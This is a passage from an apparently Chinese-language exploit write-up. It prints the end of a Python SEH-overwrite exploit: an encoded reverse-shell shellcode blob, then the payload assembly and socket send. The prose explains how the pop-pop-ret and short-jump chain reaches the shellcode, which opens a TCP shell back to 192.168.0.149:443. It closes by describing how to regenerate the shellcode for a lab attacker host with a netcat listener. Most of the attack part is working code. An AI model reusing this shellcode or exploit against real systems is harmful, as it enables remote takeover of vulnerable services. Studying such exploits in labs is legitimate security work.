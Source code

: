 ```python
"\xba\x8f\xf6\x0e\x24\xd9\xf7\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x31\x50\x12\x83\xc0\x04\x03\xdf\xf8\xec\xd1\x23\xec\x73"
"\x19\xdb\xed\x13\x93\x3e\xdc\x13\xc7\x4b\x4f\xa4\x83\x19\x7c"
"\x4f\xc1\x89\xf7\x3d\xce\xbe\xb0\x88\x28\xf1\x41\xa0\x09\x90"
"\xc1\xbb\x5d\x72\xfb\x73\x90\x73\x3c\x69\x59\x21\x95\xe5\xcc"
"\xd5\x92\xb0\xcc\x5e\xe8\x55\x55\x83\xb9\x54\x74\x12\xb1\x0e"
"\x56\x95\x16\x3b\xdf\x8d\x7b\x06\xa9\x26\x4f\xfc\x28\xee\x81"
"\xfd\x87\xcf\x2d\x0c\xd9\x08\x89\xef\xac\x60\xe9\x92\xb6\xb7"
"\x93\x48\x32\x23\x33\x1a\xe4\x8f\xc5\xcf\x73\x44\xc9\xa4\xf0"
"\x02\xce\x3b\xd4\x39\xea\xb0\xdb\xed\x7a\x82\xff\x29\x26\x50"
"\x61\x68\x82\x37\x9e\x6a\x6d\xe7\x3a\xe1\x80\xfc\x36\xa8\xcc"
"\x31\x7b\x52\x0d\x5e\x0c\x21\x3f\xc1\xa6\xad\x73\x8a\x60\x2a"
"\x73\xa1\xd5\xa4\x8a\x4a\x26\xed\x48\x1e\x76\x85\x79\x1f\x1d"
"\x55\x85\xca\xb2\x05\x29\xa5\x72\xf5\x89\x15\x1b\x1f\x06\x49"
"\x3b\x20\xcc\xe2\xd6\xdb\x87\xcc\x8f\xe3\xc2\xa5\xcd\xe3\xed"
"\x8e\x5b\x05\x87\xe0\x0d\x9e\x30\x98\x17\x54\xa0\x65\x82\x11"
"\xe2\xee\x21\xe6\xad\x06\x4f\xf4\x5a\xe7\x1a\xa6\xcd\xf8\xb0"
"\xce\x92\x6b\x5f\x0e\xdc\x97\xc8\x59\x89\x66\x01\x0f\x27\xd0"
"\xbb\x2d\xba\x84\x84\xf5\x61\x75\x0a\xf4\xe4\xc1\x28\xe6\x30"
"\xc9\x74\x52\xed\x9c\x22\x0c\x4b\x77\x85\xe6\x05\x24\x4f\x6e"
"\xd3\x06\x50\xe8\xdc\x42\x26\x14\x6c\x3b\x7f\x2b\x41\xab\x77"
"\x54\xbf\x4b\x77\x8f\x7b\x7b\x32\x8d\x2a\x14\x9b\x44\x6f\x79"
"\x1c\xb3\xac\x84\x9f\x31\x4d\x73\xbf\x30\x48\x3f\x07\xa9\x20"
"\x50\xe2\xcd\x97\x51\x27")
 
fill = "D"*(4055 - len(reverse))
 
payload = junk + nseh + seh + reverse + fill
 
buffer = payload + "\r"
buffer+= payload + "\r"
buffer+= payload + "\r\n"
 
print bz.recv(1000)
bz.send(buffer)
print "[+] sending buffer ok\n"
 
time.sleep(3)
bz.close()
s.close()
```

根据payload的布局，可以肯定这是个相当经典的SEH覆盖利用。按照这种布局，在触发异常时，程序会走到seh handler的地址，这里是个pop | pop | ret（根据注释），而因为esp在程序走到seh handler时一定是指向[nseh-8]处，所以seh handler执行pop | pop | ret会返回到nseh处，而nseh是个短jmp，它会跳过6个字节（两字节nop + 4字节seh），跳转到reverse这段shellcode执行。这段shellcode会反弹tcp shell到192.168.0.149:443，注释中也给出了msfvenom的生成参数。

##调整exp

因为我本地环境和提交者有所差异，所以shellcode需要调整一下，pop|pop|ret的地址也要在victim环境中重新搜索（如果提交者给出的地址处在non-ASLR的模块上，应该直接可用）。

重新生成一段shellcode，修改一下IP地址，我的attacker addr是192.168.1.100，victim addr是192.168.1.101，attacker上用nc在8686端口listen：
